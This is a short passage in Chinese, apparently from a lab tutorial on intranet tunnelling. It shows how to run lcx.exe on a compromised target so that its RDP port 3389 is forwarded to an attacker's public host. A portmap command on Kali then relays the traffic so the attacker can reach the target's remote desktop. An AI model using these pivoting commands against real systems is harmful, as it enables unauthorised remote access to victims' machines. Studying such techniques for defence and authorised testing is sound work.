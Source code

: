 ```
1、控制靶机上运行以下命令，将靶机的3389端口转发到公网攻击机的54端口
shell lcx转发工具.exe -slave 192.168.15.141 54 127.0.0.1 3389
```

![image-20241019145954464](内网隧道代理技术/image-20241019145954464.png)	

```
先把portmap工具上传到kali上。
在公网的攻击机上运行portmap转发工具，因为公网攻击机是kali(Linux系统)。
将54端口的数据转发到1111端口上。
./portmap -m 2 -p1 54 -p2 1111
```

![image-20241019150610892](内网隧道代理技术/image-20241019150610892.png)	

```
内网攻击机,通过公网访问(192.168.15.141:1111)来实现远程连接靶机。
```

![image-20241019150730530](内网隧道代理技术/image-20241019150730530.png)	
